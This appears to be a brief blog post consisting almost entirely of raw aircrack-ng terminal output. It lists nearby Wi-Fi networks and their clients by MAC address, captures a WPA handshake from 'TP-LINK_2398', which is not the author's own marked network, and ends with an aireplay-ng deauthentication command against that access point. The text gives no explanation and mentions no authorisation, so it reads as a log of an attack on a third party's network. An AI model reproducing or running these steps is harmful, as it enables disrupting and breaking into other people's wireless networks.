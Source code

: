 ```yaml
---
layout: post
title:  "aircrack-home"
date:   2015-06-23 22:19:42 +0300
categories: wifi
tags: wifi
---
```


# aircrack-home
wlan0     IEEE 802.11abgn  ESSID:"garry-net"  
          Mode:Managed  Frequency:2.472 GHz  Access Point: 64:70:02:A1:CA:5E   
          Bit Rate=130 Mb/s   Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
          Link Quality=60/70  Signal level=-50 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:8894  Invalid misc:178   Missed beacon:0



 CH 10 ][ Elapsed: 42 s ][ 2019-06-11 18:24                                         
                                                                                                                                                                                  
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                                                  
 C0:25:E9:E3:23:98  -72       96        3    0   1  270  WPA2 CCMP   PSK  TP-LINK_2398                                                                                            
 64:70:02:A1:CA:5E  -53       66       15    0  13  130  WPA2 CCMP   PSK  garry-net                                                                                               
 E4:6F:13:C2:E7:F2  -54       56        0    0  13  270  WPA2 CCMP   PSK  Telemir311                                                                                              
 28:28:5D:D5:FF:1E  -73      116        7    0   2  270  WPA2 CCMP   PSK  Keenetic-5773                                                                                           
 C4:6E:1F:8B:AE:4C  -76       44        0    0  13  270  WPA2 CCMP   PSK  Telemir-291                                                                                             
 AC:84:C6:1C:45:0B  -74      123        0    0   5  405  WPA2 CCMP   PSK  TP-Link_450B                                                                                            
 D4:60:E3:E1:DE:CE  -82       69        1    0   8  270  WPA2 CCMP   PSK  Beeline_2G_FFF51F                                                                                       
 78:96:82:23:8F:D8  -83       42        0    0   9  270  WPA2 CCMP   PSK  WiFi-DOM.ru-4368                                                                                        
 98:DE:D0:35:8D:AA  -88       27        0    0   9  270  WPA2 CCMP   PSK  telemir 8                                                                                               
 C0:25:E9:B1:BB:C4  -88       15        0    0   4  270  WPA2 CCMP   PSK  Telemir-37                                                                                              
 14:D6:4D:38:07:AA  -89        2        0    0   2  130  WPA2 CCMP   PSK  gercon                                                                                                  
 90:EF:68:FB:56:28  -90        2        0    0   1  270  WPA2 CCMP   PSK  Electroma                                                                                               
                                                                                                                                                                                  
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                                         
                                                                                                                                                                                   
 (not associated)   DA:A1:19:93:A8:12  -52    0 - 1      0       12                                                                                                                
 (not associated)   DA:A1:19:A3:A5:5C  -55    0 - 1     19        9                                                                                                                
 (not associated)   DA:A1:19:C7:A0:DA  -57    0 - 1      0       17                                                                                                                
 (not associated)   DA:A1:19:17:B5:56  -77    0 - 1      0       10                                                                                                                
 (not associated)   B4:E6:2A:AC:32:C8  -83    0 - 1      0       11                                                                                                                
 C0:25:E9:E3:23:98  F4:71:90:77:9F:20  -70    0 - 1      0        1                                                                                                                
 C0:25:E9:E3:23:98  7C:46:85:59:15:83  -73    0e- 6      0        4                                                                                                                
 64:70:02:A1:CA:5E  F4:60:E2:A5:03:C4  -57    0e- 1e     0        5    (мой телефон и роутер) 

---------------------------------------
airodump-ng wlan0mon

 CH  1 ][ Elapsed: 42 s ][ 2019-06-11 18:33 ][ WPA handshake: C0:25:E9:E3:23:98                                         
                                                                                                                                                                                  
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                                                  
 C0:25:E9:E3:23:98  -56   0      434    13588    2   1  270  WPA2 CCMP   PSK  TP-LINK_2398                                                                                        
                                                                                                                                                                                  
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                                        
                                                                                                                                                                                  
 C0:25:E9:E3:23:98  F4:71:90:77:9F:20  -70    0e- 1      0      191                                                                                                                
 C0:25:E9:E3:23:98  7C:46:85:59:15:83  -77    0e- 6      1    13398  TP-LINK_2398                                                                                                  
 C0:25:E9:E3:23:98  AC:A2:13:4F:90:98  -83    1e- 1e     0       38 


aireplay-ng –deauth 1 -a C0:25:E9:E3:23:98 wlan0mon
-----------------------------------------

